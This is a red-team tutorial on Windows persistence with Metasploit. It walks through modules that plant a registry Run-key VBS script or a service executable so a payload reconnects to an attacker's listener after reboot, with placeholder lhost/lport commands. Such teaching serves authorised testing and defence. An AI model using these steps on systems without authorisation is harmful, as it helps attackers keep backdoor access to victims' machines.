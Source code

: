 :orphan:
(windows-persistence-techniques-with-metasploit)=
# Windows Persistence Techniques With Metasploit
 
A lot of hard work goes into exploiting any system and once the system is exploited successfully and would need further more time to pivot into other systems in the network. Maintaining access to the system is very important once the system is compromised. Persistence involves the strategies used by adversaries and red team specialists to keep access to systems even if the system restarts, credentials change, or other interruptions occur. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code. 

This article demonstrates how to maintain access and leave a permanent backdoor in the victim system even if the system is restarted or credentials are changed or any other interruptions. This article assumes that you have already compromised a windows machine and have a meterpreter session along with system privileges. 

![per_1](images/per_1.png)

Type the `ctrl+z` to background the current session in Metasploit and Search for persistence modules by just typing the “search platform:windows persistence” this shows a whole list of persistence modules that can be used to maintain access. 

![per_2](images/per_2.png)

*Following are some of the Metasploit modules which can be used to maintain access to the system.*

## exploit/windows/local/persistence

This is provided by Carlos Perez which is present in Metasploit. This module will install a payload that is executed during boot. It will be executed either at user logon or system startup via the registry value in "`CurrentVersion\Run`" (depending on privilege and selected method). To run this module set the session id, lhost, lport. 
```
set lhost <listner IP address>
set lport <listner port>
Set session ID
```
![per_3](images/per_3.png)

After setting the lhost,lport, session Id. hit enter to run this module. 

This exploit will create a persistent VBS script which will be written to `c:\windows\SystemTemp\KGMRWLnCMls.vbs`. Autoruns allow Windows Explorer to automatically launch programs from inserted storage drives and other media. This exploit will also create an autorun service under the registry editor path due to which service will start running as soon as the victim’s PC starts.
`HKCU/software/microsoft/windows/currentversion/run/sDLuGKZtqBCmc `

![per_4](images/per_4.png)

From the above screenshot, This module will also provide us with a `.rc` file which is saved in `/home/kali` directory. This rc is the Metasploit script that is used to remove the vbs script from the victim's machine. 

![per_5](images/per_5.png)

We will need to set a multi-handler again even if the victim reboots the system. 

## windows/local/persistence_service

This Module will create and upload an executable to a remote host before converting it to a persistent service. It will launch a new service that will launch the payload whenever the service is launched. It is necessary to have administrative or system privileges. The difference between this exploit and the above exploit is that this exploit will create a exe file in /windows/SysTemp folder

To run this module set the session id, lhost, lport. 
```
set lhost <listner IP address>
set lport <listner port>
Set session ID
```
![per_6](images/per_6.png)

From the above screenshot, this module has created `bxlZTk.exe` and uploaded to victim’s systems under the `\windows\SysTemp` directory and this exe will make a persistence service. 

![per_7](images/per_7.png)

When the PC boots up, some of its services start by default, therefore the persistence service exploit generates a new service that launches the payload every time the service is launched. 

![per_8](images/per_8.png)

The previous meterpreter session will be ended if the victim reboots the system. The following commands are required to configure the multi handler to run the payload:
````
set lhost <listner IP address>
set lport <listner port>
Set session ID 
````

## Conclusion

In many circumstances, obtaining an initial foothold on a network or an asset is insufficient, and maintaining access to the system over the long term is crucial for APT/red team professionals. This article demonstrated various techniques Metasploit techniques to maintain access for the long term. 

> **Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)**